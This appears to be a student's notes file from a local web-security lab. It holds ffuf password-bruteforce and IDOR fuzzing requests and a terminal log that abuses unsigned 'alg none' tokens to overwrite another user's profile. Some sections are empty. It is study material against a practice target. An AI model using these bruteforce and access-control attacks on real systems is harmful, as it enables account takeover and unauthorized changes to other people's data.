






# Bruteforce attack
## Use intruder in burpsuite

## Using ffuf
req.txt
```curl
POST /labs/a0x01.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://localhost
Connection: close
Referer: http://localhost/labs/a0x01.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

username=jeremy&password=FUZZ
```
Command:
```bash
ffuf -request bruteforce_pass_req.txt -w /usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt -request-proto http
```
Result:



Adding filter with content length in command:
```bash
ffuf -request bruteforce_pass_req.txt -w /usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt -request-proto http -fs 1814
```



# Bypassing MFA
Just changing username

# Lab3 clusterbomb with ffuf


# IDOR lab 4
Insecure Direct Object reference
Req.txt
```curl
GET /labs/e0x02.php?account=FUZZNUM HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```





# Broken Access Control

```bash
┌──(checkmate㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '\"us http://localhost/labs/app            
quote> 
                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"username": "jeremy", "password": "cheesecake"}' http://localhost/labs/api/login.php
{"status":"success","token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=."}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=."
{"username":"jeremy","role":"staff","bio":"Java programmer."}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"username": "jessamy", "password": "tiramisu"}' http://localhost/labs/api/login.php
{"status":"success","token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ echo "eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9" | base64 -d
{"user":"jessamy","role":"admin"}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ echo "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0" | base64 -d
{"alg":"none","typ":"JWT"}base64: invalid input
                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ echo "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=" | base64 -d
{"alg":"none","typ":"JWT"}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X PUT -H "Content-Type: application/json" -d '{token: "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.", username:"jeremy", bio: "python programmer"}' http://localhost/labs/api/account.php
{"status":"error","message":"Token missing"}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X PUT -H "Content-Type: application/json" -d '{"token": "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.", "username":"jeremy", "bio": "python programmer"}' http://localhost/labs/api/account.php
{"status":"success","message":"Bio updated successfully"}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=."
{"username":"jeremy","role":"staff","bio":"python programmer"}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."
{"username":"jessamy","role":"admin","bio":"Security engineer."}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X PUT -H "Content-Type: application/json" -d '{"token": "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.", "username":"jessamy", "bio": "python programmer"}' http://localhost/labs/api/account.php 
{"status":"success","message":"Bio updated successfully"}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."
{"username":"jessamy","role":"admin","bio":"python programmer"}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X PUT -H "Content-Type: application/json" -d '{"token": "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.", "username":"jessamy", "bio": "updated by jeremy programmer"}' http://localhost/labs/api/account.php
{"status":"success","message":"Bio updated successfully"}                                                                                                                                                   
┌──(checkmate㉿kali)-[~]
└─$ curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."
{"username":"jessamy","role":"admin","bio":"updated by jeremy programmer"}         
```

